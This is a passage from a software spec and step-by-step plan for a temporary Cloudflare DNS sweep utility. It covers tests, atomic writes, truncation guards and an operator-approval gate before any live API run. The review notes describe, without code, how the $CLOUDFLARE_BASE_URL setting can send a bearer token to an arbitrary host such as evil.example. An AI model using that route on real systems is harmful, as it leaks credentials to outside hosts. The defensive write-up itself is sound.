response body.** `APIStatusError.__str__` is `\"Error code: NNN - {body}\"`; a\nDNS-record body echoes record contents and an auth-failure body can echo the credential.\n`api_error_text(e)` renders `\"{ClassName}: HTTP {status}\"` when a status code is present, else\n`\"{ClassName}: {e}\"` — and §7 tests it against a **real** SDK exception, because if `status_code`\nwere ever renamed, that fallback *is* the leak.\n\nThe summary, on stderr, on success:\n\n```\nWrote 12 platform-domain CNAMEs (3 DNS-only, invisible to fqdns.json) from 12431 records in 43 zones in 2 account(s) to platform-domains-cloudflare.json.\nTruncation cross-check active for 41 of 43 zones.\n```\n\nThe **DNS-only count** is part of the summary, not something an operator computes afterwards — it\nis the number saying how much this script found that `fqdns.json` structurally cannot.\n\n### R7 — Duplicate-name warnings\n\nWhen a name already in the map is matched again, print to stderr — **every** duplicate, not only\na cross-zone one. The file keeps one `record_id` of two and feeds a *destructive* rewrite, so\nsilence is the wrong default even for the same-zone case, which the Cloudflare API should make\nunreachable (a name may hold at most one CNAME) and which is therefore a signal worth seeing.\n\nWarnings are collected during the fold and printed **before** the file is written, so an operator\nwatching stderr sees them even if the write then fails.\n\n### R8 — Atomic write\n\n`write_fqdns_atomic` from `plugin/cloudflare/fqdns.py`, copied and renamed `write_json_atomic`:\n`tempfile.mkstemp(dir=…)` in the target's directory → write → restore a umask-based mode (mkstemp\ncreates 0600) → `os.replace()` → on any `BaseException`, unlink the temp file and re-raise. The\n`# noqa: PTH…` comments come with it: ruff's `select = ALL` includes the pathlib rules, and this\nfunction's same-filesystem `os.replace` is the behavior being specified, not a style choice.\n\nAn interrupted run leaves the previous file byte-intact; it never leaves a truncated one.\n\n## 3. Module layout of the script\n\n**File order matches task order.** This is load-bearing, not cosmetic: each task's checkpoint\nlints the file as it then stands, so a definition placed ahead of its task fails `F821`, and an\nimport placed ahead of its use fails `F401` (measured — §13, round 2).\n\n| Symbol | Task | Responsibility |\n|---|---|---|\n| module docstring, constants, `StartupError`, `normalize`, `is_platform_domain` | 1 | R4 |\n| `resolve_env_marker`, `resolve_config_value`, `build_client`, `cloudflare_client` | 2 | R2, R2a |\n| `plain`, `collect_entries` | 3 | R4, R5, R7 |\n| `write_json_atomic` | 4 | R8 |\n| `expected_record_count`, `read_all`, `api_error_text`, `SweepResult`, `fetch_platform_cnames`, `build_arg_parser`, `main`, `__main__` guard | 5 | R3, R6, R1 |\n\n## 4. Seams under test — named and agreed\n\nAgreed here, before implementation, per the Spine's bar (*\"The spec is the only place a seam can\nbe agreed\"*).\n\n| Seam | How a test reaches it | Why it is a seam |\n|---|---|---|\n| the script module itself | `SourceFileLoader`, **fresh per test** (`fpc` fixture) | The script has no `.py` extension; fresh-per-test is what makes module-attribute patching safe |\n| `os.environ` | `monkeypatch.setenv` / `delenv` | The only ambient input to credential resolution |\n| the config file | a TOML written into `tmp_path` | Real `tomllib` parse, no fake |\n| **the Cloudflare client** | `FakeCloudflareClient` / `FakePage`, passed **as a parameter** — never patched | `fetch_platform_cnames(client, …)` takes the client; injection beats patching |\n| **the request the SDK would send** | `client._build_request(...)` — offline, performs no I/O | The only way to assert R2a's property rather than its implementation |\n| **the real SDK classes** | imported directly in three tests: `V4PagePaginationArrayResultInfo`, `SyncV4PagePaginationArray`, `PermissionDeniedError` | The fakes cannot notice an SDK change; these can (§8.10) |\n| `cloudflare_client` / `fetch_platform_cnames` / `write_json_atomic`, as `main()` calls them | `monkeypatch.setattr(fpc, …)` | Safe *only* because the module is fresh per test |\n| the filesystem | `tmp_path` + `monkeypatch.chdir` (`OUTPUT_FILE` is relative) | Keeps the repo clean and makes the write assertable |\n| the real Cloudflare API | **NEVER** touched by any test | Every test in §7 is offline |\n\n`FakePage` deliberately has **no `result` attribute**: an implementation that read `page.result`\n(page 1 only) instead of iterating the page would fail loudly rather than silently pass. One test\nasserts the *real* class **does** have `result`, so that trap is known to be real rather than\nimagined.\n\n## 5. Shadow paths (PD#3), traced\n\nHappy path plus nil / empty / upstream-error, for each new flow.\n\n| Flow | Happy | Nil input | Empty / zero-length | Upstream error |\n|---|---|---|---|---|\n| Credential resolution | marker → env value → pinned client | key absent → `None` → falls through to email+key, or `StartupError` if neither | env var set but **empty** → `\"\"` → falsy → treated as absent, matching `get_env`'s `name in os.environ` semantics | unset var, unbalanced quote, non-`env` form, non-`str` value → `StartupError` |\n| The walk | accounts → zones → records, each cross-checked | `result_info` absent → `expected is None` → cross-check no-ops and the zone is counted as unchecked | **zero accounts** → zero zones → fatal; **zero zones** → fatal; a zone with **zero records** → contributes nothing, not an error | `CloudflareError` → `StartupError` via `api_error_text`; count mismatch → one re-read → concurrent change (continue) or truncation (fatal, no file) |\n| The fold | CNAME + platform target → entry | `content` `None` → skipped; `settings` `None` → `null`; `proxied`/`ttl` absent → `False`/`None` | zero pairs → `({}, [])`, reported with the zero-match `ATTENTION:` | n/a (pure; upstream errors surface from the generator it consumes) |\n| The write | temp → chmod → `os.replace` | n/a | `{}` writes `{}` plus a newline — a real, intentional result | `OSError` → temp unlinked, previous file byte-intact, converted to `StartupError` at the call site. A `TypeError` mid-serialize is **not** converted, and is **unreachable**: every stored value comes from the SDK's JSON parsing, and the one model (`settings`) goes through `plain()`, which a test pins |\n\n## 6. Observability (PD#5)\n\n| Level | Emits |\n|---|---|\n| default | duplicate-name `ATTENTION:` warnings; the summary (entries, **DNS-only count**, records read, zones, accounts, path); the **truncation cross-check coverage** line; the zero-match `ATTENTION:`; one `ERROR:` line on failure |\n| `-v` | additionally, per zone: `[n/total] zone <name> -- N records`, marked `(total_count unavailable, not cross-checked)` when the guard could not run; plus a notice whenever a re-read is triggered and how it resolved |\n\nRules:\n\n- **NEVER** an API response body, at any level (R6).\n- A truncation is a **hard abort naming both counts from both reads**, not a line to notice.\n- **The guard reports its own coverage** at default verbosity —\n  `Truncation cross-check active for 41 of 43 zones.` This is what makes §14 Q1 answerable; a\n  guard whose liveness is invisible is not a guard.\n- The **runtime is unknown until the first live run**, is recorded in §12, and is then added to\n  the CLAUDE.md subsection — the sibling documents \"~38 minutes\", and an operator starting a long\n  quiet run deserves the same here.\n- Rejected: counted `-v/-vv/-vvv` — §8.9.\n\n## 7. Test plan\n\nOne file, `tests/unit/test_find_platform_domains_cloudflare.py`, `pytestmark = pytest.mark.unit`,\nfully offline, **55 tests**. Seams per §4.\n\n**These counts and outcomes are measured, not predicted.** The script and test file were built to\ncompletion in a scratch directory, then **staged back task by task** — each stage linted with the\nrepo's ruff config and run under pytest:\n\n```\nTask 1: lint clean    8 passed\nTask 2: lint clean   24 passed\nTask 3: lint clean   36 passed\nTask 4: lint clean   39 passed\nTask 5: lint clean   55 passed\n```\n\nand on the finished file: `ruff check` clean; **6 × T201 with the two per-file-ignores entries\nremoved**, so Task 5 Step 6's check is red-capable; `pyright` standard `0 errors, 0 warnings`.\nThe code blocks in Tasks 1–5 below were extracted **from those verified files**, not retyped.\n\nCovered: the marker resolver (all four forms, missing var, unbalanced quote, non-`env`\nsubstitution, literal and non-string passthrough); credential selection **including R2a's security\nproperty asserted on the real request with all six ambient variables exported**, plus the\n`base_url` route and the non-`str` type check; the match rule (all five reject cases); the fold\n(all eight fields, pydantic `settings` serialization, missing optional attributes,\nfirst-record-wins, both duplicate warnings); the atomic write (creates, overwrites, no temp left,\nsurvives a mid-serialize failure); the walk (multi-page consumption, re-read-then-continue,\nre-read-then-abort, truncated **zone** list, absent-`total_count` coverage reporting, zero zones,\nAPI error wrapping); **three tests against the real SDK classes** (§8.10); and **`main()`'s three\nexit codes** plus the unwritable-output path.\n\nNot covered, by decision (§8.5): any live-API test.\n\n---\n\n## Task 1: Scaffold, tooling, and the match rule\n\n**Files:**\n- Create: `find-platform-domains-cloudflare` (executable, `chmod +x`)\n- Create: `find-platform-domains-cloudflare.py` → symlink to the above\n- Create: `tests/unit/test_find_platform_domains_cloudflare.py`\n- Modify: `pyproject.toml` (two `[tool.ruff.lint.per-file-ignores]` entries, one\n  `[tool.pyright].include` entry)\n- Modify: `.claude/hooks/ruff-check.sh` (one `case` arm)\n\n**Interfaces:**\n- Consumes: nothing.\n- Produces: `PLATFORM_SUFFIX`, `OUTPUT_FILE`, `DEFAULT_CONFIG`, `API_BASE_URL`, `MARKER_RE`,\n  `StartupError`, `normalize(name) -> str`, `is_platform_domain(name) -> bool`.\n\n**Imports this task introduces:** script — `re` only. Tests — `importlib.util`, `types`,\n`SourceFileLoader`, `Path`, `pytest`. Nothing else, or the checkpoint fails `F401` before pytest\nruns.\n\n- [ ] **Step 1: Write the failing test**\n\nCreate `tests/unit/test_find_platform_domains_cloudflare.py`:\n\n```python\n<<T1>>\n```\n\n- [ ] **Step 2: Run the tests to verify they fail — for the right reason**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\n\nExpected: **8 errors**, each a `FileNotFoundError` raised by the `fpc` fixture. Collection itself\n**succeeds** — `SCRIPT` is only a `Path` at module level and nothing touches the filesystem until\nthe fixture runs. Do **not** expect a collection error.\n\n- [ ] **Step 3: Create the script**\n\nCreate `find-platform-domains-cloudflare`:\n\n```python\n<<S1>>\n```\n\n- [ ] **Step 4: Make it executable and create the symlink**\n\n```bash\ncd /workspace\nchmod +x find-platform-domains-cloudflare\nln -s find-platform-domains-cloudflare find-platform-domains-cloudflare.py\n```\n\n`chmod +x` is **required, not cosmetic**: ruff's `EXE001` (\"shebang is present but file is not\nexecutable\") fires without it, and `EXE001` is in no ignore list. Measured.\n\n- [ ] **Step 5: Add the tooling entries**\n\nIn `pyproject.toml`, in `[tool.ruff.lint.per-file-ignores]`, immediately after the two existing\n`find-platform-domains-dns` entries:\n\n```toml\n\"find-platform-domains-cloudflare.py\" = [\"T201\"]  # a CLI tool: print IS its operator output\n    # (stderr = warnings, progress, summary; the result is the JSON file).  Temporary, deleted\n    # with the script after the Pantheon CDN migration -- see\n    # development/2026-07-30-platform-domain-util2/SPEC.md section 11.\n\"find-platform-domains-cloudflare\" = [\"T201\"]  # the extension-less real file the .py entry\n    # above symlinks to -- .claude/hooks/ruff-check.sh hands ruff THIS path (an edit lands on the\n    # real file, not the symlink), and per-file-ignores is keyed on the path ruff is given, so\n    # the .py entry alone leaves the hook's own invocation reporting T201.  Same justification\n    # and deletion condition as the .py entry above.\n```\n\nIn `pyproject.toml`, `[tool.pyright]`, extend `include`:\n\n```toml\ninclude = [\"psh\", \"find-platform-domains-dns.py\", \"find-platform-domains-cloudflare.py\"]\n```\n\nIn `.claude/hooks/ruff-check.sh`, add one arm to the extension-less `case` (after the\n`find-platform-domains-dns` arm):\n\n```sh\n    \"$REPO_ROOT/find-platform-domains-cloudflare\") ;;\n```\n\nand extend that block's comment to name both temporary utilities.\n\n- [ ] **Step 6: Run the tests to verify they pass**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: **8 passed**, with the repo-wide ruff and pyright gates green (measured clean at this\nstage).\n\n- [ ] **Step 7: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare find-platform-domains-cloudflare.py \\\n        tests/unit/test_find_platform_domains_cloudflare.py pyproject.toml \\\n        .claude/hooks/ruff-check.sh\ngit commit -m \"feat(find-platform-domains-cloudflare): scaffold the utility and its match rule\"\n```\n\n> The \"does the lint gate actually see this file\" check is **not** here. At this point the script\n> contains no `print`, so `ruff check` passes identically whether or not Step 5 was done — a green\n> check that cannot go red. It moves to Task 5 Step 6, where the `print` calls exist (§13).\n\n---\n\n## Task 2: Credential resolution and the pinned client\n\n**Files:**\n- Modify: `find-platform-domains-cloudflare` (append after `is_platform_domain`)\n- Test: `tests/unit/test_find_platform_domains_cloudflare.py` (append; no new top-level imports)\n\n**Interfaces:**\n- Consumes: `MARKER_RE`, `StartupError`, `API_BASE_URL` (Task 1).\n- Produces: `resolve_env_marker(expr, where) -> str`, `resolve_config_value(value, where)`,\n  `build_client(**creds) -> Cloudflare`, `cloudflare_client(config_path) -> Cloudflare`.\n\n**Imports this task introduces:** script — `os`, `shlex`, `tomllib`, `from pathlib import Path`,\n`from cloudflare import Cloudflare`. Tests — none.\n\n- [ ] **Step 1: Write the failing tests**\n\nAppend to the test file:\n\n```python\n<<T2>>\n```\n\n- [ ] **Step 2: Run the tests to verify they fail**\n\nExpected: FAIL — `AttributeError: module … has no attribute 'resolve_config_value'`.\n\n- [ ] **Step 3: Implement**\n\nAdd this task's imports to the top block, then append after `is_platform_domain`:\n\n```python\n<<S2>>\n```\n\n- [ ] **Step 4: Run the tests to verify they pass**\n\nExpected: **24 passed** (8 + 16 here; `test_resolve_config_value_reads_the_environment` is\nparametrized over two marker forms).\n\n- [ ] **Step 5: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py\ngit commit -m \"feat(find-platform-domains-cloudflare): resolve credentials and pin the client against the environment\"\n```\n\n---\n\n## Task 3: The fold\n\n**Files:**\n- Modify: `find-platform-domains-cloudflare` (append after `cloudflare_client`)\n- Test: `tests/unit/test_find_platform_domains_cloudflare.py` (append; **add `json` to the top\n  import block**)\n\n**Interfaces:**\n- Consumes: `is_platform_domain`, `normalize` (Task 1).\n- Produces: `plain(value)`, `collect_entries(zone_records) -> tuple[dict, list[str]]`, where\n  `zone_records` is any iterable of `(zone_id, record)` pairs.\n\n**Imports this task introduces:** script — none. Tests — `json`.\n\n- [ ] **Step 1: Write the failing tests**\n\nAdd `import json` to the test file's top block, then append:\n\n```python\n<<T3>>\n```\n\n- [ ] **Step 2: Run the tests to verify they fail**\n\nExpected: FAIL — `AttributeError: module … has no attribute 'collect_entries'`.\n\n- [ ] **Step 3: Implement**\n\nAppend after `cloudflare_client`:\n\n```python\n<<S3>>\n```\n\n- [ ] **Step 4: Run the tests to verify they pass**\n\nExpected: **36 passed** (24 + 12 here;\n`test_collect_entries_skips_everything_that_is_not_a_platform_cname` is parametrized over five\nrecords).\n\n- [ ] **Step 5: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py\ngit commit -m \"feat(find-platform-domains-cloudflare): fold DNS records into the output mapping\"\n```\n\n---\n\n## Task 4: The atomic write\n\n**Files:**\n- Modify: `find-platform-domains-cloudflare` (append after `collect_entries`)\n- Modify: `.gitignore`\n- Test: `tests/unit/test_find_platform_domains_cloudflare.py` (append)\n\n**Interfaces:**\n- Consumes: nothing.\n- Produces: `write_json_atomic(path, data) -> None`.\n\n**Imports this task introduces:** script — `json`, `tempfile`. Tests — none.\n\n- [ ] **Step 1: Write the failing tests**\n\nAppend to the test file:\n\n```python\n<<T4>>\n```\n\n- [ ] **Step 2: Run the tests to verify they fail**\n\nExpected: FAIL — `AttributeError: module … has no attribute 'write_json_atomic'`.\n\n- [ ] **Step 3: Implement**\n\nAdd `json` and `tempfile` to the top import block, then append after `collect_entries`:\n\n```python\n<<S4>>\n```\n\n- [ ] **Step 4: Ignore the generated output file**\n\nIn `.gitignore`, next to the existing `/fqdns.json` line:\n\n```\n/platform-domains-cloudflare.json\n```\n\n- [ ] **Step 5: Run the tests to verify they pass**\n\nExpected: **39 passed** (36 + 3 here).\n\n- [ ] **Step 6: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py \\\n        .gitignore\ngit commit -m \"feat(find-platform-domains-cloudflare): write the output file atomically\"\n```\n\n---\n\n## Task 5: The guarded walk and the CLI\n\n**Files:**\n- Modify: `find-platform-domains-cloudflare` (append after `write_json_atomic`)\n- Test: `tests/unit/test_find_platform_domains_cloudflare.py` (append)\n\n**Interfaces:**\n- Consumes: `collect_entries`, `plain` (Task 3), `cloudflare_client` (Task 2),\n  `write_json_atomic` (Task 4), `StartupError`, `OUTPUT_FILE`, `DEFAULT_CONFIG` (Task 1).\n- Produces: `expected_record_count(page) -> int | None`;\n  `read_all(fetch, what, notify=None) -> tuple[list, bool]`; `api_error_text(e) -> str`;\n  `SweepResult` (a `NamedTuple` of `entries, warnings, accounts, zones, records, zones_checked`);\n  `fetch_platform_cnames(client, *, verbose=False) -> SweepResult`; `build_arg_parser()`;\n  `main(argv) -> int`.\n\n**Imports this task introduces:** script — `argparse`, `sys`, `from typing import NamedTuple`, and\n`import cloudflare` (the bare module, for `cloudflare.CloudflareError`). Tests — none at the top\nlevel; `cloudflare`, `httpx` and the `cloudflare.pagination` names are imported inside test\nbodies.\n\n- [ ] **Step 1: Write the failing tests**\n\nAppend to the test file:\n\n```python\n<<T5>>\n```\n\n> Note for the implementer: `import cloudflare` / `import httpx` inside a test body is deliberate\n> — the top block carries only what module level needs, and `PLC0415` (in-test imports) is in the\n> `tests/**` ignore list. `httpx` is a direct dependency under the `cloudflare` extra, so these\n> tests stay offline. `cloudflare.APIConnectionError(request=None)` was verified constructible\n> against the installed SDK (5.4.0); its MRO is\n> `APIConnectionError → APIError → CloudflareError → Exception`.\n\n- [ ] **Step 2: Run the tests to verify they fail**\n\nExpected: FAIL — `AttributeError: module … has no attribute 'expected_record_count'`.\n\n- [ ] **Step 3: Implement**\n\nAdd this task's imports to the top block, then append after `write_json_atomic`:\n\n```python\n<<S5>>\n```\n\n- [ ] **Step 4: Run the tests to verify they pass**\n\nExpected: **55 passed** (39 + 16 here).\n\n- [ ] **Step 5: Run the whole gate**\n\nRun: `./run-tests --fast`\nExpected: ruff passes, pyright passes, the full offline suite green with no new failures.\n\n- [ ] **Step 6: Prove the lint entries are load-bearing (a check that can go red)**\n\n```bash\nuvx ruff@0.15.22 check find-platform-domains-cloudflare\n# -> All checks passed!\n\n# Now temporarily comment out BOTH \"find-platform-domains-cloudflare*\" per-file-ignores\n# entries in pyproject.toml and re-run:\nuvx ruff@0.15.22 check find-platform-domains-cloudflare\n# -> 6 errors, all T201.  Restore the entries.\n```\n\nMeasured: exactly **6 × T201**. If the second run reports zero errors, the entries are in the\nwrong place and the first run proved nothing.\n\n- [ ] **Step 7: Verify the CLI surface without touching Cloudflare**\n\n```bash\nsource .venv/bin/activate\n./find-platform-domains-cloudflare --help\n./find-platform-domains-cloudflare -c /nonexistent.toml ; echo \"exit=$?\"\n```\nExpected: usage text on **stdout**; then `ERROR: cannot read /nonexistent.toml: …` on **stderr**\nand `exit=2`.\n\n- [ ] **Step 8: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py\ngit commit -m \"feat(find-platform-domains-cloudflare): walk every zone, guarded against truncation\"\n```\n\n---\n\n## Task 6: Documentation (offline, ungated)\n\n**Files:**\n- Modify: `CLAUDE.md` (a subsection beside the existing `find-platform-domains-dns` one)\n\nDeliberately **before** the STOP, and committed on its own, so the utility is documented in git\nwhether or not the live run ever happens.\n\n- [ ] **Step 1: Add the CLAUDE.md subsection**\n\nImmediately after the existing `find-platform-domains-dns` subsection, add the block below.\n(Nested fences are shown indented by two spaces; remove that indent when inserting.)\n\n<<CLAUDEMD>>\n\n- [ ] **Step 2: Commit**\n\n```bash\ngit add CLAUDE.md\ngit commit -m \"docs(find-platform-domains-cloudflare): document the temporary utility\"\n```\n\n---\n\n## Task 7: Live verification\n\n> # ⛔ STOP — OPERATOR APPROVAL REQUIRED\n>\n> **This is a structural halt, not a checklist item. There is deliberately no checkbox to tick.**\n>\n> Every step below calls the **live Cloudflare API with production credentials**. Tasks 1–6 were\n> entirely offline.\n>\n> **Do not proceed until the operator replies with the exact phrase:**\n>\n> ```\n> RUN THE LIVE SWEEP\n> ```\n>\n> Nothing else unlocks this task. Report that you are waiting, and stop. If the operator declines\n> or never answers, Tasks 1–6 are already committed and complete; §12 simply stays unfilled.\n\n- [ ] **Step 1: Run the live sweep**\n\n```bash\nsource .venv/bin/activate\ntime ./find-platform-domains-cloudflare -v ; echo \"exit=$?\"\n```\n\nExpected: per-zone lines with record counts on stderr, then the summary and the cross-check\ncoverage line, `exit=0`. **Record the wall-clock time** — §12 and the CLAUDE.md subsection both\nneed it.\n\n- [ ] **Step 2: Verify the output against the contract**\n\n```bash\npython - <<'PY'\nimport json\ndata = json.load(open(\"platform-domains-cloudflare.json\"))\nexpected_keys = {\"zone_id\", \"origins\", \"record_id\", \"proxied\", \"ttl\", \"comment\", \"tags\",\n                 \"settings\"}\nfor name, entry in data.items():\n    assert set(entry) == expected_keys, f\"{name}: unexpected key set {set(entry)}\"\n    for origin in entry[\"origins\"]:\n        assert origin.rstrip(\".\").lower().endswith(\".pantheonsite.io\"), f\"{name}: {origin}\"\n    assert name == name.strip().rstrip(\".\").lower(), f\"{name}: key not normalized\"\nprint(len(data), \"entries;\",\n      sum(1 for e in data.values() if not e[\"proxied\"]),\n      \"DNS-only (invisible to fqdns.json);\",\n      sum(1 for e in data.values() if len(e[\"origins\"]) > 1), \"with multiple origins\")\nPY\n```\n\n- [ ] **Step 3: Cross-check against `fqdns.json`**\n\n```bash\npython - <<'PY'\nimport json\nnew = json.load(open(\"platform-domains-cloudflare.json\"))\nold = json.load(open(\"fqdns.json\"))\n# BOTH sides normalized: this file keys by the normalized name, fqdns.json by the raw\n# record.name, so differencing them raw invents phantom entries (SPEC R5a).\ndef norm(name): return name.strip().rstrip(\".\").lower()\nproxied_here = {norm(k) for k, v in new.items() if v[\"proxied\"]}\nmissing = sorted(proxied_here - {norm(k) for k in old})\nprint(\"proxied platform CNAMEs this run found that fqdns.json lacks:\", missing)\nPY\n```\n\nExpected: an empty list, or a short list explainable by `fqdns.json` being stale (24h refresh\nrule). A long unexplained list means the walk is wrong — stop and investigate before recording\n§12. Note this compares only *proxied* entries, since `fqdns.json` structurally cannot contain the\nDNS-only ones.\n\n- [ ] **Step 4: Record §12, add the runtime to the CLAUDE.md subsection, and commit**\n\n```bash\ngit add CLAUDE.md development/2026-07-30-platform-domain-util2/SPEC.md\ngit commit -m \"docs(find-platform-domains-cloudflare): record the first live sweep\"\n```\n\n---\n\n## 8. NOT in scope\n\nRecorded with the reasoning so a later session does not re-litigate them.\n\n1. **`--output` flag.** The path is fixed by the PROMPT. A script with one caller and a\n   months-long life does not need a configurable output path.\n2. **Nested `records` list / parallel arrays for per-record detail.** Rejected in favor of scalars\n   with first-record-wins, mirroring how `fqdns.json` already treats `zone_id`. Duplicates always\n   warn and every target stays in `origins`.\n3. **Server-side filtering (`type=\"CNAME\"` on the records list).** Rejected: the requirement is to\n   consider all records, efficiency is explicitly not a goal, and the change is one word if a run\n   becomes painful. §14 Q2 revisits it against the measured runtime.\n4. **Doomed-stream detach guards and the exit-120 taxonomy** the sibling carries. Rejected: that\n   machinery exists because the sibling's *result* is a CSV on stdout, where a failed shutdown\n   flush silently converts a good sweep into exit 120. Here the result is a file. A doomed stdout\n   (`--help >/dev/full`) or stderr can still produce exit 120 — accepted and documented (R6)\n   rather than guarded, the same call CLAUDE.md already records for the sibling's argparse output.\n5. **Any live-API test.** Every test in §7 is offline. The live path is exercised once, by hand,\n   behind Task 7's STOP.\n6. **Progress bars (`rich.progress`).** Rejected: `-v` stderr lines carry the same information\n   with none of the copied machinery.\n7. **Fixing `plugin/cloudflare/client.py`'s R2a defect.** Real, measured, reported — but a change\n   to the main program with its own test surface. **It is not merely latent:**\n   `$CLOUDFLARE_BASE_URL` is exploitable against the main program today, whichever credential form\n   is configured.\n8. **A `docs/` page.** The CLAUDE.md subsection is the documentation; a temporary utility does not\n   earn a docs page.\n9. **Counted `-v/-vv/-vvv`.** Rejected: the truncation guard is a hard abort *and* reports its own\n   coverage at default verbosity, so both questions a `-vv` tier would have answered (\"did it\n   fire?\", \"did it run at all?\") are answered without one. The sibling sets the boolean-`-v`\n   precedent for temporary scripts.\n10. **Pinning the `cloudflare` dependency.** R2a and R3 rest on SDK internals and `pyproject.toml`\n    declares `\"cloudflare\"` unpinned. Pinning affects every consumer and is a main-program\n    decision. Mitigation instead: §7 includes three tests that touch the **real** SDK classes —\n    `V4PagePaginationArrayResultInfo` (so a lost `extra=\"allow\"`, or a renamed `total_count`, goes\n    red instead of silently disabling the whole truncation guard), `SyncV4PagePaginationArray` (so\n    the `page.result` trap the fake encodes stays real), and a real `PermissionDeniedError` (so a\n    renamed `status_code` cannot silently turn `api_error_text` into a response-body leak).\n    Fake-backed tests alone could notice none of these.\n11. **Guarding the count of *matching* records.** Only list completeness is guarded; there is no\n    expected number of platform CNAMEs to check against.\n\n## 9. Files created / modified (complete list)\n\n| File | Action | Task |\n|---|---|---|\n| `find-platform-domains-cloudflare` | create (executable) | 1–5 |\n| `find-platform-domains-cloudflare.py` | create (symlink) | 1 |\n| `tests/unit/test_find_platform_domains_cloudflare.py` | create | 1–5 |\n| `pyproject.toml` | modify (2 per-file-ignores + 1 pyright include) | 1 |\n| `.claude/hooks/ruff-check.sh` | modify (1 case arm + comment) | 1 |\n| `.gitignore` | modify (1 line) | 4 |\n| `CLAUDE.md` | modify (1 subsection; runtime added in Task 7) | 6, 7 |\n| `development/2026-07-30-platform-domain-util2/SPEC.md` | modify (§12 result) | 7 |\n\n## 10. Verification\n\n- `./run-tests --fast` — ruff, pyright, and the offline suite green; 55 new tests. Measured clean\n  at **every** per-task checkpoint (8 / 24 / 36 / 39 / 55), not only at the end.\n- Task 5 Step 6 — the per-file-ignores entries proven load-bearing (6 × T201 without them).\n- `./find-platform-domains-cloudflare --help` — usage renders on stdout.\n- `./find-platform-domains-cloudflare -c /nonexistent.toml` — exit 2, named error on stderr.\n- The live run and its two cross-checks (Task 7), behind the STOP.\n\n## 11. Deletion checklist (after Pantheon's CDN migration)\n\n1. `git rm find-platform-domains-cloudflare find-platform-domains-cloudflare.py`\n2. `git rm tests/unit/test_find_platform_domains_cloudflare.py`\n3. `pyproject.toml`: remove the **two** `[tool.ruff.lint.per-file-ignores]` entries.\n4. `pyproject.toml`: remove `\"find-platform-domains-cloudflare.py\"` from `[tool.pyright].include`.\n5. `.claude/hooks/ruff-check.sh`: remove the `\"$REPO_ROOT/find-platform-domains-cloudflare\"` case\n   arm and trim its comment back to naming only `find-platform-domains-dns`.\n6. `.gitignore`: remove `/platform-domains-cloudflare.json`.\n7. `CLAUDE.md`: remove the `### find-platform-domains-cloudflare (temporary utility)` subsection.\n8. Delete any leftover `platform-domains-cloudflare.json` from working checkouts.\n\nThis folder stays — it is the historical record.\n\n## 12. First live run\n\n*Recorded in Task 7, Step 4. Leave this section as-is until then.*\n\n- Date:\n- Command:\n- Exit code:\n- Wall-clock runtime:\n- Accounts / zones scanned / records read:\n- Zones the truncation cross-check could cover (`N of M`):\n- Any re-reads triggered, and how each resolved:\n- Entries written, of which DNS-only:\n- Entries with multiple origins (duplicate-name warnings):\n- `fqdns.json` cross-check result:\n\n## 13. Claims this spec had to correct\n\nPer `prompts/adversarial-review.md`: *\"Record the author's own corrected claims in the document,\nnot just the fixes.\"* This is where this spec's own verification failed, and what caught it. **Two\nrounds of adversarial review; 30 findings.**\n\n### Round 1\n\n| Claim as first written | Reality | Caught by |\n|---|---|---|\n| R6: \"there is deliberately no exit 1\", presented as exhaustive | Two reachable paths exited 1 with a raw traceback: `OSError` from the write and `ValueError` from `shlex.split` | Reviewer reproduced both |\n| A `main()` test \"would force a client-injection seam to exist for the test's benefit alone\" (§5.5 of the pre-review draft) | **False.** The fresh-per-test fixture already makes `monkeypatch.setattr` free; the reviewer wrote and ran the three tests in ~25 lines with no production change. Exit 130 had **zero** coverage anywhere | Reviewer wrote the tests the spec called unaffordable |\n| R2a explained the credential leak via `auth_headers` alone | Incomplete — `default_headers` is a second, independent route | Reviewer read the SDK past the first mechanism |\n| The R2a test asserted `client.api_email is None` etc. | Implementation state, not the security property | Reviewer |\n| Pagination was unmentioned and explicitly out of test scope | `dns.records.list()` is a paginator; a short read writes a silently incomplete file | Reviewer |\n| R5's field set stopped at `record_id`/`proxied` | The same argument covers `ttl`/`comment`/`tags`/`settings`, which the reverse rewrite would discard | Reviewer |\n| Task 1's `ruff check` \"verifies the lint gate sees the new file\" | A green check that could not go red at that point in the plan | Reviewer |\n| Task 1 Step 2 expected a \"collection ERROR\" | Collection succeeds; the failure is 8 fixture errors | Reviewer, measured |\n| \"a record type that cannot be proxied has no `proxied` field\" | False — every response model carries it | Reviewer, measured |\n| Test counts 8 / 21 / 32 / 35 / 38 | Off by one per task | Author, after transcribing and running them |\n| `Settings.model_dump()` returns `{\"flatten_cname\": True}` | It returns three fields. The *code* was right; the *assertion* was wrong, and pinning the whole dict would have pinned the SDK's model shape | Author, running the test before shipping |\n| \"stdout is unused\" | argparse writes usage and `--help` there | Reviewer |\n| R2 named the engine's \"unknown substitution\" branch | It reaches \"no match found\" (`configuration.py:98`) | Reviewer, tracing the engine |\n| The zero-zones message blamed `DNS:Read` only | A missing `Account:Read` produces it too | Reviewer |\n\n### Round 2 — including two the author's own verification had missed\n\n| Claim | Reality | Caught by |\n|---|---|---|\n| The plan's per-task checkpoints were runnable | **They were not.** `./run-tests` gates ruff over the whole repo *before* pytest, and Task 1 declared the full import block while using only `re` — measured **10 × F401**, so Tasks 1–4 never reached their own tests. The author's round-1 evidence ran ruff only against the *finished* file, which is exactly why it missed this | Reviewer; author reproduced |\n| R2a: \"ambient values reach the wire by **two** routes… the pin closes **both**\" | **Four** routes. `$CLOUDFLARE_CUSTOM_HEADERS` overrides the pin, and `$CLOUDFLARE_BASE_URL` **sends the pinned token to an arbitrary host** — strictly worse than the defect R2a was written to fix. Author reproduced: `Authorization: Bearer tok-123` delivered to `evil.example` | Reviewer; author reproduced |\n| \"The §7 tests are written to go red if the SDK changes\" | True for R2a, **false for R3** — every pagination and error-text assertion ran against hand-built fakes, so an SDK change would leave all tests green and production silently truncating. Three real-SDK tests added | Reviewer |\n| The truncation guard was correct as specified | It false-positives on a concurrent DNS edit and misdiagnoses it as \"truncated\", destroying a multi-minute run with no recourse. Now one re-read distinguishes the two causes | Reviewer |\n| The truncation guard was complete | It covered records 